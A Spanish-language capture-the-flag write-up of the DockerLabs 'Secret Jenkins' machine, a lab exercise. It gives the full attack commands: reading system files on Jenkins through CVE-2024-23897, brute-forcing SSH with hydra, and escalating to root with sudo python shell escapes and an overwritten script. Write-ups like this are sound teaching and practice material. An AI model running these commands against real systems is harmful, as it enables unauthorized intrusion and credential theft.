 # Secret Jenkins

## Dificultad: Facil

Empezamos descargando la imagen de dockerlabs

![Descarga de Dockerlabs](./imagenes/descarga.png)

y luego, seguido de un:

```bash
unzip secretjenkins.zip
```

Para poder descomprimirlo, desplegamos la maquina usando el comando

```bash
sudo ./auto_deploy.sh secretjenkins.tar
```

![Despliegue de Secret Jenkins](./imagenes/despliegue.png)

Ahora que la maquina ya esta desplegada, si podemos comenzar con el hackeo!

# Reconocimiento

Usando nmap podremos escanear la red en busca de los servicios que tiene la maquina dentro

```bash
nmap -sV -p- 172.17.0.2 -Pn

- -sV: Detecta versiones de servicios
- -Pn: No realiza ping a la máquina
- -p-: Escanea todos los puertos
```

![Escaneo de puertos](./imagenes/escaneo.png)

Podemos detectar que hay un servicio de Jenkins corriendo en el puerto **8080**, especificamente la version **10.0.18**, ademas de un usual ssh en el puerto **22**.

Al buscar la version usando searchsploit encontramos que no hay una vulnerabilidad en esa version en nuestra maquina

```bash
searchsploit Jetty 10.0.18
Exploits: No Results
Shellcodes: No Results
```

Sin embargo, al entrar a la interfaz de Jenkins, podemos ver que hay un panel de usuario y contraseña, por lo que me llama a seguir buscando un exploit que me permita acceder a la máquina, solo para evitar recurrir a métodos más invasivos.

# Explotación

Luego de una busqueda, podemos encontrar un exploit concreto que nos puede ayudar en este caso. El [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897) que nos permite leer archivos del sistema. Gracias a nuestro querido amigo "El Pinguino de Mario" podemos encontrar un [script en python](https://github.com/Maalfer/CVE-2024-23897) que nos permite explotar esta vulnerabilidad.

Clonamos el repositorio y accedemos a el

```bash
git clone https://github.com/Maalfer/CVE-2024-23897.git
cd CVE-2024-23897
```

![Clonacion de repo](./imagenes/clone.png)

Una vez dentro del directorio, podemos ver que hay un archivo python llamado `CVE-2024-23897.py` que usaremos con el mismo ejemplo dentro del repo, para que nos permita leer el archivo `/etc/passwd` de la maquina, para buscar algun usuario divertido.

```bash
python3 CVE-2024-23897.py 172.17.0.2 8080 /etc/passwd
```

![Explotacion de la vulnerabilidad](./imagenes/exploit.png)

Podemos ver dos usuarios que pueden ser interesantes...

- **bobby**
- **pinguinito**

Ambos usuarios parecen ser interesantes, por lo que podemos intentar realizar un ataque de fuerza bruta sobre el ssh del inicio para ver si alguno tiene una credencial, empezemos con bobby.

```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![fuerza bruta](./imagenes/hydra.png)

Con el usuario bobby podemos ver que ha sido exitoso en el ataque de fuerza bruta, obteniendo la siguiente contraseña:

- **chocolate**

Asi que ahora podemos intentar acceder al ssh de la maquina usando estas credenciales.

```bash
ssh bobby@172.17.0.2
```

![ssh](./imagenes/ssh.png)

Y estamos dentro de la máquina!

# Escalación de privilegios

Una vez dentro utilizamos el comando `sudo -l` para buscar los permisos de sudo que tiene el usuario bobby.

```bash
bobby@7e70d0a3ba24:~$ sudo -l

Matching Defaults entries for bobby on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 7e70d0a3ba24:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ver que el usuario bobby puede ejecutar el comando `/usr/bin/python3` como el usuario `pinguinito` sin necesidad de contraseña. Esto significa que podemos intentar cambiar de usuario a `pinguinito` y obtener una shell con privilegios elevados.

Buscando en GTFOBins encontramos que podemos usar el siguiente comando para obtener una shell como el usuario de los permisos:

![GTFOBins](./imagenes/gtfobins.png)

```bash
sudo -u pinguinito python3 -c 'import os; os.system("/bin/bash")'
```

- **sudo -u pinguinito**: ejecuta el comando como el usuario `pinguinito`
- **python3 -c 'import os; os.system("/bin/bash")'**: ejecuta un comando de Python que importa el módulo `os` y ejecuta una shell de bash

Esto nos dará una shell interactiva como el usuario `pinguinito`, lo que nos permitirá explorar el sistema con mayores privilegios.

![Shell interactiva](./imagenes/pinguinito.png)

Ahora como el usuario pinguinito podemos explorar el sistema con mayores privilegios. Usando otro `sudo -l` podemos revisar sus permisos

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 7e70d0a3ba24:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ver que el usuario `pinguinito` puede ejecutar el script `/opt/script.py` como cualquier usuario sin necesidad de contraseña. Esto significa que podemos intentar ejecutar este script para obtener una shell con privilegios elevados.

por ende vamos a cambiar el script para que nos de una shell de root en los siguientes pasos:

1. Cambiamos los permisos del script para poder modificarlo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ chmod +w /opt/script.py
```

2. Modificamos el contenido del script con el payload de la shell de python

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

3. ejecutamos el script con sudo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo /usr/bin/python3 /opt/script.py
```

![root](./imagenes/elevacionroot.png)

Y una vez con el usuario root, hemos conseguido escalar privilegios y obtener acceso total al sistema!